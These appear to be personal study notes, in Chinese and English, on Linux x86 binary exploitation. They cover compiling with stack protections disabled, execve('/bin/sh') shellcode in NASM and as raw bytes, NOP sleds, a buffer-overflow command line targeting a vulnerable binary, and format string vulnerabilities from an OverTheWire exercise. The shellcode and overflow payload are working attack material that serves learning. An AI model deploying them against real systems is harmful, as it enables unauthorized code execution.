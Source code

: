 Byte ordering
![image](https://slideplayer.com/slide/9303999/28/images/9/Byte+ordering+function+calls+%282%2F6%29.jpg)

## 16进制hex里面每个字符(0->f)都代表4个bit
32位有8个hex decimal (4*8=32bits)
64位有16个hex decimal (4*16=64bits)


# shellcode 

### compile 

```
gcc -m32 -g -mpreferred-stack-boundary=2 -fno-stack-protector -Wl,-z,norelro -z execstack example.c -o example

-no-pie: disable PIE (position independent executable)
-z execstack: to disable NX (making stack executable)
-Wl,-z,norelro: disable RELRO (readonly relocations)
-fno-stack-protector: remove stack protection (stack overflow security checks)
And for convenience:

-g: add debugging

-mpreferred-stack-bounary=2: align stack on 4-byte boundary

---


nasm -f elf32 example.asm -o example.o

ld -m elf_i386 example.o

as --32 example.s -o example.o
```
- execstack: allow ....

### call from c
```
int (*foo)() = (int(*)())code;
  foo_value = foo();
  
OR
just
(*(void(*)()) shellcode)();

```


```
// nasm 
global _start

section .text
_start:
    jmp short call_shellcode

shellcode:
    pop ebx                    ; address of '/bin/sh'
    xor eax,eax
    mov al, 11                 ; 0xb
    int 0x80

call_shellcode:
    call shellcode
    message db "/bin/sh"       ; no need to add \0 manually



nasm -f elf32 example.asm -o example.o

ld -m elf_i386 example.o

./a.out

```


```
example2.asm (nasm) 25 bytes


global _start

section .text

_start:
	jmp getString

shell:
	xor eax, eax
	pop ebx
	xor ecx, ecx
	xor edx, edx
	mov al, 0xb
	int 0x80

getString:
	call shell
	db "/bin/sh"

\xeb\x0b\x31\xc0\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68


```

## NOP(No operation performed)

```
\x90
a sled，雪橇，EIP跟着NOP往前（高地址）滑，可以当作shellcode前面的填充物。

```

## GDB 

```
x/wx 。。。 记得加个w代表word，32位，不然的话会打印nibbles
```

## print shellcode bytes 

```
Example
$(python -c 'print "\x90"*107 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "B"*4')

$(echo -n -e "\x31\xc0\x50\x68\x2f") 
$(echo -n -e "\x31\xc0\x50\x68\x2f") > inputFile  把inputFile里现有的内容删掉然后写入
$(echo -n -e "\x31\xc0\x50\x68\x2f") >> inputFile 在已有内容的后面添加
```


### 容易踩的陷阱
[link](https://stackoverflow.com/questions/38416045/im-trying-to-exploit-a-bufferoverflow-am-i-doing-something-wrong)
```
./vulne $(python -c 'print "\x90"*(256+4-25-40) + "\xeb\x0b\x31\xc0\x5b\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"+"\x90"*40 + "\x10\xd3\xff\xff"')
```
> 重点重点重点！！！！！ 注意看shellcode是在NOP sled的中间，而不是在最后


## Stack Alignment 

- GCC aligned default 16 bytes 
- 一旦local var >= 17，gcc就会分配32bytes
- 

## Vulnerability lists 

- [Format string vulnerability](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
- 

### Format string vulnerability 
Overthewire - narnia5

针对printf家族的函数


```
如果str来源不安全,
printf(str); 就能被攻击。
```
所以要满足以下条件
1. printf(str); 后续va_arg 参数不对
2. 攻击者能够操控str
3. 在str里放入%x,%s,%n等 specifiers

在printf那一行下一个断点，这一刻的stack：

![illlustration](./format_string_stack.png)